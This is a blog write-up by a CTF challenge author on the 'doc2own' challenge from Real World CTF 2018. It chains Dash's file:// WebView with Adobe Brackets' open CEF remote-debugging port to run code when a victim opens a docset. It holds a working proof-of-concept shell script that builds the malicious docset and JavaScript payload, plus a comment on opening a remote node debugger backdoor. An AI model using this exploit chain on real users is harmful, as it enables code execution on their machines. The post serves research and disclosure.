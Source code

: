 ```yaml
---
layout:	post
title:	"Something About #realworldctf doc2own"
date:	2018-08-07
image: /img/rwctf.png
---
```


![](/img/rwctf.png)

The challenge is to get a shell when the victim opens a Dash docset. Both Dash and Adobe Brackets are up to date. Actually the intended solution **involves no zero day at all**. This writeup from Team 217 [Real World CTF 2018 — doc2own](https://blog.l4ys.tw/2018/07/realworld-ctf-2018-doc2own/) (in Traditional Chinese) is the expected solution.

<!-- more -->

## The Intended Solution Without Involving 0day

#### From remote debug to shell

After the [VSCode 9333 debugging port issue](http://bluec0re.blogspot.com/2018/03/cve-2018-7160-pwning-nodejs-developers.html) I looked at some other javascript based desktop applications, especially editors and IDE. I came across this same vulnerability in Adobe Brackets: [CEF remote debugging is vulnerable to dns rebinding attack #14149](https://github.com/adobe/brackets/issues/14149)

It's weird to have a debugging port in production but Brackets does it. Unlike Atom or VSCode, Brackets is based on libCEF and custom node.js runtime binding. The debugging protocol for web frontend is the same as Chromium.

In the original report, exploit requires dns rebinding to get the random websocket uuid to start a debug session, then use DOM manipulation (there was a bug so `Runtime.Evaluate` didn't work) to inject malicious javascript to the frontend context. But node.js runtime can not be accessed so you need a V8 engine bug to achieve native code execution. The libCEF is pretty old so all you need is to grab an n-day exploit. No further sandbox. Unfortunately memory corruption is not what I am familiar with.

There are some special bridged objects in the context: `appshell` and `brackets`. In the challenge you don't really need a shell because `brackets` already gives the filesystem access.

Unrestricted file system access almost equals code execution, but it requires a trigger. There are two functions that can be turned to instant command execution.

1. `brackets.app.openURLInDefaultBrowser` does not limit `file:///` url, so point it to an executable like `.cmd` or `.exe` equals `ShellExecute` on Windows. For macOS we can use `.terminal` or `.sh`.
2. The application bundle on macOS is actually a directory with specific structure. Opening such bundle will execute a file. Method `brackets.app.showOSFolder` can trigger this behavior.

```js
function calc() {
  // use brackets.fs to write your own executable
  // makedir, writeFile, chmod are your friends
  if (brackets.app.getUserDocumentsDirectory().indexOf('/') === 0) {
    brackets.app.showOSFolder('/Applications/Calculator.app');
  } else {
      brackets.app.openURLInDefaultBrowser('file:///C:/windows/system32/calc.exe');
  }
// P.S. brackets.getModule is also available. We can even activate a node debugger backdoor
  const NodeConnection = brackets.getModule("utils/NodeConnection");
  const conn = new NodeConnection();
  conn.connect(true);
  conn.domains.base.enableDebugger(); // enable *:5858 as a backdoor, which accepts connection from another computer. Just attach it with VSCode or other debugger to execute node.js code
}
```

The patch killed dns rebinding, but this port is still open. So what if we can access it from somewhere with no Same Origin Policy?

#### The Dash Part

There was no special reason to choose Dash as this part. Dash is popular for developers, and it has a WebView that can make cross site AJAX if the document has `file:///` origin. The WebView in Dash is the same WebKit engine as Safari, **I don't think someone will burn a Safari 0day exploit in the CTF**.

You may think about directly reading flag from `file:///` via AJAX. Actually this bug has been reported for a while, including the symlink variant, as well as a directory traversal in the GCDWebServer.

![](/img/XHQ-73R0VHZvwNubvKipXg.png)

#### Demo

Looks like both two issues are not so serious, but together they can spawn a remote shell:

* A debugging port that only allows localhost connection
* A web browser without same origin policy

Here's a proof of concept that launches a calculator:

```bash
contents=exploit.docset/Contents
docs=$contents/Resources/Documents

rm -r $contents
mkdir -p $docs

cat > $docs/index.html <<- "EOF"
<script>
async function main() {
  const list = await fetch('http://localhost:9234/json').then(r => r.json());
  const item =  list.find(item => item.url.indexOf('file:///') === 0);
  if (!item) return console.error('invalid response');
  const url = `ws://127.0.0.1:9234/devtools/page/${item.id}`;
  console.log('url:' + url);
  exploit(url);
}
function exploit(url) {
  function calc() {
    const fs = window.appshell.fs;
    const mkdir = path => new Promise((resolve, reject) =>
      fs.makedir(path, 0755, err => err => err === 0 ? resolve(true) : reject(err)));
    const writeFile = (path, content) => new Promise((resolve, reject) =>
      fs.writeFile(path, content, 'utf8', false, err => err === 0 ? resolve(true) : reject(err)));
    const chmod = (path, mode) => new Promise((resolve, reject) =>
      fs.chmod(path, mode, err => err === 0 ? resolve(true) : reject(err)));
    const INFO_PLIST = `<?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
      <plist version="1.0">
      <dict>
        <key>CFBundleExecutable</key>
        <string>hello</string>
        <key>CFBundleIconFile</key>
        <string>AppIcon</string>
      </dict>
      </plist>`;
    const EXEC = `#!/bin/sh
      open -a Calculator`;
    const app = '/tmp/test.app/';
    const base = app + 'Contents/'
    return mkdir(base + 'MacOS')
      .then(writeFile(base + 'Info.plist', INFO_PLIST))
      .then(writeFile(base + 'MacOS/hello', EXEC))
      .then(chmod(base + 'MacOS/hello', 0777))
      .then(new Promise((resolve, reject) => {
        brackets.app.showOSFolder(app)
      }));
  }
  const ws = new WebSocket(url);
  ws.onopen = async () => {
    let counter = 13371337;
    const send = (method, params) => new Promise((resolve, reject) => {
      const id = counter++;
      const recv = ({ data }) => {
        const parsed = JSON.parse(data);
        if (parsed.id === id) {
          resolve(parsed.result);
          ws.removeEventListener('message', recv);
        } else {
          console.log('message: ', data);
        }
      };
      ws.addEventListener('message', recv);
      ws.send(JSON.stringify({ id, method, params }));
    });
    const response = await send('Runtime.evaluate', { expression: `(${calc})()` });
    console.log(response.result);
    ws.close();
  }
  ws.onerror = () => console.log('failed to connect');
}
main();
</script>
EOF

cat > $contents/Info.plist <<- "EOF"
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
  <key>CFBundleIdentifier</key>
  <string>exploit</string>
  <key>CFBundleName</key>
  <string>Exploit</string>
  <key>DocSetPlatformFamily</key>
  <string>exploit</string>
  <key>dashIndexFilePath</key>
  <string>index.html</string>
  <key>isDashDocset</key>
  <true/>
</dict>
</plist>
EOF

sqlite3 -batch $contents/Resources/docSet.dsidx << "EOF"
CREATE TABLE searchIndex(id INTEGER PRIMARY KEY, name TEXT, type TEXT, path TEXT);
CREATE UNIQUE INDEX anchor ON searchIndex (name, type, path);
INSERT OR IGNORE INTO searchIndex(name, type, path) VALUES ('Exploit', 'Class', 'index.html');
EOF

open exploit.docset

tar czf exp.tar.gz exploit.docset
```

[Demo](https://youtu.be/8--cX0BF3ew)

But during the CTF, it didn't cost [Plaid Parliament of Pwning](https://ctftime.org/team/284), [CyKOR](https://ctftime.org/team/369) and [Eat, Sleep, Pwn, Repeat](https://ctftime.org/team/15712) too much time to find real zero day solutions in Dash itself. After the game, I did a quick disassemble and found some other new bugs that have been confirmed by the developer.

After reporting to [Kapeli](https://medium.com/u/f1aac0988a9), he quickly made a new release, and checked the docset repo to make sure there were no actual attack. Thanks for his response!

> The docsets available by default within Dash (including user contributed ones) have been checked and no evidence of these vulnerabilities being exploited has been found.

To protect end users of Dash, I'll not reveal the unintended bugs now. **Please upgrade to Dash 4.4.0 ASAP.**

